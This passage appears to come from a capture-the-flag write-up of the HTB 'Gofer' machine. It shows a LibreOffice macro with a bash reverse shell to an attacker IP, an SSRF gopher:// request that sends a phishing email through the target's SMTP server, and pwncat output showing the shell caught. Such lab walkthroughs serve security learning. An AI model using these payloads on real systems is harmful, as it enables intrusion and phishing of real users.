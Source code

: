 
While crafting this malicious file, I realized that a simple reverse shell payload like `bash -i >& /dev/tcp/$IP/$PORT 0>&1` didn't work. The file was retrieved from the local HTTP server, but the payload wouldn't be executed.

```
Sub exploit
    shell("bash -i >& /dev/tcp/10.10.14.132/9005 0>&1")
End Sub
```

As per [LibreOffice's documentation](https://ask.libreoffice.org/t/how-to-use-shell-from-basic-macro-solved/23590), the first parameter for `Shell()` is specified as `Pathname As String`. This is the reason the payload needs to be enclosed within a bash command string using `bash -c`.

```
Sub exploit
    shell("bash -c 'bash -i >& /dev/tcp/10.10.14.132/9005 0>&1'")
End Sub
```

Using the previously created Gopherus payload for gofer and leveraging the SSRF vulnerability, I can now send the email to Jocelyn with the malicious file. The only modification required is to change the IP address from `127.0.0.1` to either `0.0.0.0` or simply `0`.

```bash
> http -pb POST proxy.gofer.htb/index.php url==gopher://0.0.0.0:25/_MAIL%20FROM:abraxas%40gofer.htb%0ARCPT%20To:jhudson%40gofer.htb%0ADATA%0AFrom:abraxas%40gofer.htb%0ASubject:Definitely%20not%20a%20phishing%20attempt%0AMessage:Not%20malicious%20%3Ca%20href%3Dhttp://10.10.14.132/revShell.odt%3Elink%3C/a%3E%0A.
<!-- Welcome to Gofer proxy -->
220 gofer.htb ESMTP Postfix (Debian/GNU)
250 2.1.0 Ok
250 2.1.5 Ok
354 End data with <CR><LF>.<CR><LF>
250 2.0.0 Ok: queued as 4ED0C66EF
421 4.4.2 gofer.htb Error: timeout exceeded
1
```

After a brief wait, I successfully obtained a shell as `jhudson`. It is highly likely that this occurred because they clicked on the link in the email.

```bash
> pc -lp 9005
[13:46:39] Welcome to pwncat 🐈!                                                                    __main__.py:164
[13:47:06] received connection from 10.10.11.225:35422                                                   bind.py:84
[13:47:08] 0.0.0.0:9005: normalizing shell path                                                      manager.py:957
[13:47:10] 10.10.11.225:35422: registered new host w/ db                                             manager.py:957
(local) pwncat$
You have mail in /var/mail/jhudson
(remote) jhudson@gofer.htb:/usr/bin$ id
uid=1000(jhudson) gid=1000(jhudson) groups=1000(jhudson),108(netdev)
(remote) jhudson@gofer.htb:/usr/bin$
```

---